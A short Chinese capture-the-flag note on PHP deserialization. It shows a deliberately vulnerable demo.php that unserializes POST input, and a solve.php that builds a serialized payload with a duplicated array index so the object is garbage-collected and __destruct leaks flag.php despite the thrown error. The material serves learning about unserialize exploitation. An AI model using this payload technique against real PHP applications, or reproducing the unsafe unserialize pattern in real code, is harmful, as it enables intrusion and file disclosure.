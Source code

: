 # 强制gc

[Breaking PHP’s Garbage Collection and Unserialize](https://www.evonide.com/breaking-phps-garbage-collection-and-unserialize/)

[类似但不完全一样的题目 35c3_php](https://ctftime.org/writeup/12781)

```php
<?php
//demo.php
highlight_file(__FILE__);
class demo
{
    public function __wakeup()
    {
        echo "demo __wakeup()<br>";
    }
    public function __destruct()
    {
        echo "demo __destruct()<br>";
        highlight_file("flag.php");
        die();
    }
}

if (!isset($_POST["str"])) {
    die();
}
$tmp = unserialize($_POST["str"]);//此时$tmp在使用反序列化后生成的demo对象,即对象demo被引用,生命周期未结束,无法执行__destruct
throw new Error("I can't destruct,help!!!");//异常抛出,程序立即退出,demo对象无法正常执行__destruct
/*
unserialize($_POST["str"]);//此时没有对该反序列化生成的对象进行引用,因此在完成反序列化操作后,对象生命周期结束,立刻执行__destruct
throw new Error("I can't destruct,help!!!");
*/
```

```php
<?php
//solve.php
class demo{

}
class fake{

}
$a=new demo();
$b=new fake();
$c=array(0=>$a,1=>$b);
$str=serialize($c);
var_dump($str);
$str=str_ireplace('i:1;O:4:"fake"','i:0;O:4:"fake"',$str);
var_dump($str);
```

```php
string 'a:2:{i:0;O:4:"demo":0:{}i:1;O:4:"fake":0:{}}' (length=44)
string 'a:2:{i:0;O:4:"demo":0:{}i:0;O:4:"fake":0:{}}' (length=44)
```

>如果`$c=array(0=>$a,1=>$b);`修改为`$c=array(0=>$a,0=>$b);`得到的序列化结果为`a:1:{i:0;O:4:"fake":0:{}}`

因为在执行序列化前,第一个元素即`$a`已经被第二个元素所覆盖

